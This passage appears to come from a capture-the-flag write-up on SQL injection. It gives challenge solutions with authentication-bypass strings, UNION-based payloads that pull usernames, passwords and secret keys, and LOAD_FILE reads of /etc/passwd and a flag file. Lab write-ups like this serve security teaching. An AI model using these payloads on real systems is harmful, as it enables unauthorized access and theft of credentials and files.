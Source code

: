 ```python
objective = "Bypass authentication and access admin panel"
payloads = generate_sqli_payloads(context, objective)
print(payloads)
```

---

### 4. EXPLOITATION (Khai thác)

#### 4.1 Authentication Bypass

**Challenge 5 Solution:**
```sql
-- In login form
Username: admin' OR '1'='1' --
Password: [anything]

-- Or in admin panel
Username: ' OR '1'='1' LIMIT 1--
Password:

-- Then extract flag
SELECT * FROM admin_panel;
```

#### 4.2 Data Extraction

**UNION-based SQLi:**
```sql
-- Find number of columns
' ORDER BY 1--
' ORDER BY 2--
...
' ORDER BY 6--  # If error, previous number is column count

-- UNION SELECT
' UNION SELECT 1,2,3,4,5,6--

-- Extract data
' UNION SELECT 1,username,password,secret_key,5,6 FROM admin_panel--

-- Extract from hidden column (Challenge 6)
' UNION SELECT 1,2,hidden_flag,4,5,6 FROM products--
```

#### 4.3 Local File Read (Challenge 7)

```sql
-- Read file
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6--

-- Read flag file
' UNION SELECT 1,LOAD_FILE('/var/lib/mysql/secret_flag.txt'),3,4,5,6--

-- Check file_references table
SELECT * FROM file_references;
```
